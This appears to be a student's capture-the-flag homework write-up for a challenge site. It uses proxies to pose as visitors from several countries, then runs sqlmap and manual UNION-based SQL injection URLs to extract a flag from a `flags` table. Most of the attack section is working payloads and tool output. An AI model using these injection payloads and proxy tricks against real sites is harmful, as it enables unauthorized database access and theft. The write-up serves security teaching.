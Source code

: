 # HW1-1: Tormity (bonus)
**0016302 heron**

## Problem
Get flag string from the website http://tor.atdog.tw/ .

## Step
**Goal**:
- visit tor.atdog.tw using 10 different IP from different countries
- SQL Injection the site while using HK IP

**Tool**: hola + sqlmap + curl + microbe

### Obtain 10 Different Country IPs
- Method 1: use Hola as Chrome extension (http://hola.org/)
- Method 2: manual proxy setups (free proxy list, http://letushide.com/)

### Help with sqlmap
Setup cookie and proxy for sqlmap:
```
#!/bin/bash
sqlmap --proxy "http://110.173.49.18:3128" --cookie
"_tor_session=YkFDQURKb0JyVW1sLy9vZjQrMzlMWkx5Mm1JWnI1U3crWXNXZHcyU1R1U2t5bnAzRktVenpkbGpOcmN6cUpCRnJJazFWYUVLUzdHeTN2M3l1NGVMeEVEZHEyTVlpWVorUkI4NzR5c04xMkp1dVFqUlFqbDI2M21mZXJaR0VMTmlnNDcrdWNjUllkU0p3NnFEcTJkTFlKTWZFbWNxOUJmWmlicytUVVlpRW1TTlBOdGRlWDZaNWhwY1RwRWJEU1FSVzY0VFp1OFBYY1pySWFlallVeWlkNXZGMkZ2SkMvRWtaWTd1ZHQ3dFRkYXVhK1cwd0ZBWEhYMnVQMEtXdmNUb0Q4Qm5Ub1EyOGRadlZXUlZnRmgwVE1SQXVxYjdWbGxpZExkVTNkaVpkc3I5MEl5aFpKM0xEZ0oxdHkyZ2lRSkYtLXlEdFpEWkhvejF1OGVVamFOM2tHVXc9PQ%3D%3D--efa48ea6dd3a35f67c55eb0d3c50556881729bc7"
-u "tor.atdog.tw/news/1"
```

Output:
```
---
Place: URI
Parameter: #1*
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://tor.atdog.tw:80/news/1) AND 6076=6076 AND (2468=2468

    Type: UNION query
    Title: MySQL UNION query (NULL) - 5 columns
    Payload: http://tor.atdog.tw:80/news/1) UNION ALL SELECT NULL,NULL,CONCAT(0x7171706b71,0x4a446f55477064424663,0x7174727871),NULL,NULL#
---
back-end DBMS: MySQL >= 5.0.0
```

### SQL Injection
I tried following SQL Injection requests to understand the syntax on the target server:

#### Injectable?
```
http://tor.atdog.tw/news/1'
```
500 Error, which means it's injectable

#### Syntax Guessing
```
http://tor.atdog.tw/news/0) OR (1=1
```
200 Success getting the article, which means that the SQL syntax is using '(' and applying WHILE or HAVING following by boolean checkings

#### Column Number
```
http://tor.atdog.tw/news/0) UNION SELECT NULL FROM `flags` %23
```
to
```
http://tor.atdog.tw/news/0) UNION SELECT NULL, NULL, NULL, NULL, NULL FROM `flags` %23
```
200 for 5 columns, which means the the original SQL syntax request for 5 columns

#### Output Result in Right Column
```
http://tor.atdog.tw/news/1) UNION SELECT `flag`, NULL, NULL, NULL, NULL FROM `flags` %23
```
to
```
http://tor.atdog.tw/news/1) UNION SELECT NULL, `flag`, NULL, NULL, NULL FROM `flags` %23
```
200 for putting `flag` at second column

## Solution
Get flag string be printed on site:
```
http://tor.atdog.tw/news/1) UNION SELECT NULL, `flag`, NULL, NULL, NULL FROM `flags` %23
```

## Tricky Part
I had wasted lots of time by using '-- ' at the end of the SQL injection code, which gave me errors. However, by refering to SQL official document, we know:
> From a “#” character to the end of the line.

> From a “-- ” sequence to the end of the line. In MySQL, the “-- ” (double-dash) comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on). This syntax differs slightly from standard SQL comment syntax, as discussed in Section 1.8.2.5, “'--' as the Start of a Comment”.

So,
- If using '#', we have to do URL encode manually; otherwise, it will be seen as hash symbol for URL routing
- If using '-- ', we should put something after it; otherwise, the following space will be dropped and error occurs. Success example is here:
```
http://tor.atdog.tw/news/1) UNION SELECT NULL, `flag`, NULL, NULL, NULL FROM `flags` -- an apple a day
```


## More
I am listing the helpful tools while I was SQL injecting the site:
- [SQLite Manager (Firefox Extension)](https://addons.mozilla.org/en-US/firefox/addon/sqlite-manager/): testing SQL syntax in browser
- [sqlmap](http://sqlmap.org/): help me understand the target faster, or even dump everything
- [Microbe](https://chrome.google.com/webstore/detail/microbe/khejlnipbheaalinebbiadhmajjlmdil?hl=en): Chrome Extension for better URL editing and cookie managing
